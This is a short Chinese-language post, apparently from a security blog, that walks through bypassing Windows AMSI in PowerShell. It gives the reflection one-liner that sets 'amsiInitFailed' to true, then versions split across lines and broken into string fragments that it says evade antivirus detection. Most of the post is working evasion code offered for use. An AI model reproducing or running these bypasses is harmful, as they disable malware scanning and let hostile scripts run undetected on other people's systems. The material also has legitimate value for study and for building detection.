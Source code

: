 下面这个是16年老外发布的关闭amsi的命令。这段代码的主要功能是通过反射访问 `AmsiUtils` 类中的 `amsiInitFailed` 字段，将其值设置为 `$true`，从而绕过 AMSI 扫描。

```plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

直接就报毒：

[![](assets/1709530518-22480e3a25cabb763bb60c5bb06d5947.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101940-7da72b14-d904-1.png)

然后我们进行分割，不一句话执行：

```plain
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)
```

可以看到前两条命令仍然被杀，这两条命令是反射访问类中字段的，所以我们要想办法进一步绕过

[![](assets/1709530518-d92704f4cb28a5cd87260206f796d669.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101954-85cf00be-d904-1.png)

我们把类名和字段名进行拆分，然后通过参数的形式赋给我们的命令，可以看到现在已经不查杀了

```plain
$a = 'System.Management.Automation.A';$b = 'ms';$c = 'Utils'
$d = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$c))
$e = $d.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$e.SetValue($null,$true)
```
